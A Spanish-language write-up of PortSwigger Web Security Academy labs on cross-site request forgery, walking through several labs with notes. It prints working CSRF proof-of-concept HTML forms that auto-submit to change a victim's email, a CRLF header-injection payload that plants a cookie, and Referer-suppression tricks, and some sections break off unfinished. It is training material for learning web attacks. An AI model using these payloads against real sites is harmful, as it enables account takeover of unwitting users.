

# laboratories cross site request forguery CSRF

## Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

Esta es fácil solo tienes que loguearte y cambiar mail.

Una vez que cambias mail envias a crear poc csrf y no olvidar de activar el autosumbit


Genearmos y copiamos el html en el body de nuestro servidor de explotación.

Una vez que lo tenemos guardado enviamos y ya está solucionado el lab.


## Lab: CSRF where token validation depends on request method
This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter


El laboratorio pide que cambiemos el correo. Como vemos, hemos enviado el cambio de mail a repeater. Enviamos cambiando el email y nos cierra conexión con el 302.


Pasamos a get la conexión para que ponga otra forma por si funciona. 

- botón derecho change request petition

```html
GET /my-account/change-email?email=pepito%40gmail.com&csrf=MiFaOzk72hkaDZ712Cli07BwuPe98XQu HTTP/1.1
Host: ac351f821f9deb7ac054414c008b0017.web-security-academy.net
Cookie: session=h9B6AJqFDEwYDHGY4U3Uou60YP3Bmhjh
```
Ha convertido la petición post en get poniendo dentro de la url el email.

Como vemos sigue teniendo el token CSRF por lo que lo eliminamos



Vemos que nos devuelve un 302 que sabemos que es una redirección por lo que le damos a follow redirection


Nos desplazamos un poco más abajo y vemos que ha cambiado.


Volvemos a la página anterior del follow y esta pagina que aparece con:
- La peticion get
- el mail cambiado
- El token CSRF quitado

Lo enviamos a a la creación del código CSRF. Cambiamos la url por nuestra web

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac351f821f9deb7ac054414c008b0017.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="mano&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Lo mandamos al body del servidor de explotación, guardamos y enviamos


## Lab: CSRF where token validation depends on token being present

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

En este caso vamos a comprobar que no se valida el token convenientemente por lo cual vamos a eliminarlo.

Capturamos el change mail. Eliminamos el token CSRF. Una vez hecho creamos un poc csrf y dándole a auto ejecutar vamos al exploit, guardamos y lanzamos.


## Lab: CSRF where token is not tied to user session

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya

-CSRF attacks, but they aren't integrated into the site's session handling system.
  
 
Nos logueamos en las dos cuentas en exploradores diferentes para que tengan sesiones diferentes.

En el primero capturamos el change mail, cambiamos a get y mandamos a crear el poc. En el poc tenemos que decirle autogenerado.

Una vez hecho en el otro con carlos cogemos y vamos al change mail, inspeccionamos el código del formulario y copiamos su csrf. 

Este csrf lo ponemos en el poc que creamos antes , guardamos y enviamos.


## Lab: CSRF where token is tied to non-session cookie


This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

wiener:peter
carlos:montoya


Borro el historial de burpsuite y los repeater que tengo .

Me logueo en las dos cuentas en diferentes exploradores.

Mando el change mail en ambos a repeteater


En wienner hemos cambiado el token de sesion y enviamos (le damos a follow) y se desloguea.

Ahora cambiamos el csrfkey cookie y simplemente rechaza el token.

Esto sugiere que no está vinculado directamente a la sesión.

Comprobamos que la respuesta aun funcional nos da un 302 cuando enviamos sin cambiar nada, aún así si cambia el mail


Vale una vez sabemos esto seguimos navegando porque si tiene una convinaciónd de session y csrfkey no nos va a dejar.

Vimos en el search que en la respuesta estable un set cookie, Por lo que podráimos mandar un ataque malicioso con una url en la que por parámetro tuviese Set-Cookie: y nuestra cookie


He estado probando en la url para que la respuesta sea con mi token csrf


He conseguido que lo ponga pero necesito ahora un salto de linea. Buscando en google dicen que usemos 
```bash
0x0D = CR (carriage return)
0x0A = LF (line feed)
```
Además he añadido un espacio %20 detrás del :


```bash
/?search=adfa%0D%0ASet-Cookie:%20csrfKey=bjeecNcEJ3OTFXKTNHDALqIqqYOTikim
```
Probamos con el csrfkey de carlos en la petición de wiener


 
Una vez tengo la estructura para el ataque tendremos que mandar en algo que de un error y que cuando de el error lance el autoejecutar

```html

```
Mandamos a poc
```html

La meto dentro del poc y vemos que pasa

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a36001b032ab19fc05058d600f30036.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="YwjH4v9i8PhNkhnnWulQMqlThLU05eDI" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```
Borramos la parte del script y ponemos la imagen. El token csrf tiene que ser el de carlos también


## Lab: CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter


Creo que este ejercicio será muy parecido al anterior pero en vez de enviar el csrfkey le metemos una cookie falsa

Probamos en repeater este ataque para ver si lo añade
```html
/?search=adfa%0D%0ASet-Cookie:%20csrf=fadfd
```


Una vez que vemos que lo acepta mandamos un poc parecido al del ejercicio anterior pero en este caso actualizado con nuestra nueva url y el nuevo image

No se si tendré que poner en csrf el mismo que me invento, ahora veremos.

Usamos para enviar al poc la request de change mail
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ade00720368d922c08f2844003c00ac.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="uuMospS6lcEeayVVu9wh1ZqWXcUGFiWG" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Lo modificamos
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ade00720368d922c08f2844003c00ac.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="fadfd" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```
No funciona, cambiamos el csrf por el malo 

 


USE:
POC
+
Referrer-Policy: unsafe-url
+
history.pushState("", "", "/?your-lab-id.web-security-academy.net")

## Lab: CSRF where Referer validation depends on header being present

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hay que hacer un típico poc (del change mail) pero cambiar el header 


Mandamos a repeater el change mail. Enviamos y nos sale 302. Cambiamos la url rerferer y nos da fallo, lo eliminamos y vuelve el 302. Es vulnerable.

Añadimos en el header
```html
<meta name="referrer" content="never">
```
Vamos al exploit y añadimos el head y nuestro referer
```html
  <html>
<head>
  <meta name="referrer" content="never">
</head>

  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aff00270482d7a2c0c28cb9002b00b4.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


## Lab: CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Nos logueamos y capturamos el change mail

añadimos una url al referer para ver si funciona


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0aa0000304a7d749c05b8fe2007700d1.web-security-academy.net')</script>
    <form action="https://0aa0000304a7d749c05b8fe2007700d1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="adfa&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Añadir también en el head el 


